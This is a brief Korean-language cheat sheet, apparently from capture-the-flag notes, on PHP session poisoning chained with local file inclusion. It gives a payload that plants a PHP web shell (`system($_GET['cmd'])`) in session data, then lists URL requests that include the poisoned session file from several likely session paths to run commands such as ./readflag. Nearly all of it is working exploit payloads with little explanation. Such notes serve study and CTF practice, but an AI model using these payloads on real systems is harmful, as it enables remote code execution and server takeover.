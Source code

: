 Session Poisoning
세션 데이터에 악의적인 내용을 삽입하거나 변경하여 어플리케이션의 동작을 변조

# 페이로드
먼저, Session Poisoning 후
`?p=broken|data;<?php system($_GET['cmd']); ?>`

LFI와 연계
이때, 세션 위치는 아래와 같은 확률이 높음
`?p=/var/lib/php/sessions/sess_687b635d46cfd929e6384b922cf50e4b&cmd=./readflag`
`?p=/tmp/sess_687b635d46cfd929e6384b922cf50e4b&cmd=./readflag`
`?p=/var/tmp/sess_687b635d46cfd929e6384b922cf50e4b&cmd=./readflag`
`?p=/var/sessions/sess_687b635d46cfd929e6384b922cf50e4b&cmd=./readflag`
`?p=/var/php/sessions/sess_687b635d46cfd929e6384b922cf50e4b&cmd=./readflag`


